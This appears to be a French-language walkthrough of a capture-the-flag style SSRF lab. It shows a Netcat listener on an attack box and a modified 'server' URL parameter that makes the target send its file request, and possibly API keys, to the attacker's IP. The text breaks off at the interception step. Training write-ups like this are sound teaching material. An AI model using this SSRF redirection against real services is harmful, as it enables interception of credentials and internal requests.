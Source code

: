 ```bash
user@attackbox$ nc -lvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.1.236 43830
GET /:8087/public-docs/123.pdf HTTP/1.1
Host: 10.10.10.11
User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
Accept: */*
```

Maintenant, rendez-vous sur le port `8087` de la machine cible pour pratiquer !

---

**Explore the website. What is the only host allowed to access the admin area?**

En naviguant sur le site et en cliquant sur le menu (les trois barres sur le côté), nous trouvons un lien vers "Admin Area". En y accédant, nous voyons le message suivant : `Admin interface only available from localhost!!!`

**Réponse :** `localhost`

**Check the "Download Resume" button. Where does the server parameter point to?**

En examinant le lien généré lorsque nous cliquons sur le bouton "Download Resume", nous observons l'URL suivante :

```
http://10.10.2.128:8087/download?server=secure-file-storage.com:8087&id=75482342
```

Le paramètre `server` pointe vers le domaine du serveur de stockage de fichiers.

**Réponse :** `secure-file-storage.com`

**Using SSRF, make the application send the request to your AttackBox instead of the secure file storage. Are there any API keys in the intercepted request?**

Pour exploiter la vulnérabilité SSRF, voici la procédure :

1. **Mettre en place un listener :** D'abord, nous devons mettre un terminal en écoute pour capturer la requête lorsque nous redirigerons l'application vers notre machine. Nous utilisons `Netcat` sur le port 80 :

```bash
nc -lvp 80
```

2. **Obtenir notre adresse IP :** Nous devons connaître l'adresse IP de notre AttackBox. Utilisez la commande `ip a` pour l'obtenir.

3. **Modifier l'URL :** Ensuite, nous modifions l'URL du téléchargement en remplaçant `secure-file-storage.com:8087` par notre adresse IP suivie du port `80` :

```
http://10.10.2.128:8087/download?server=10.9.1.199:80&id=75482342
```

4. **Intercepter la requête :** Une fois l'URL modifiée et soumise, notre listener Netcat capture la requête entrante :
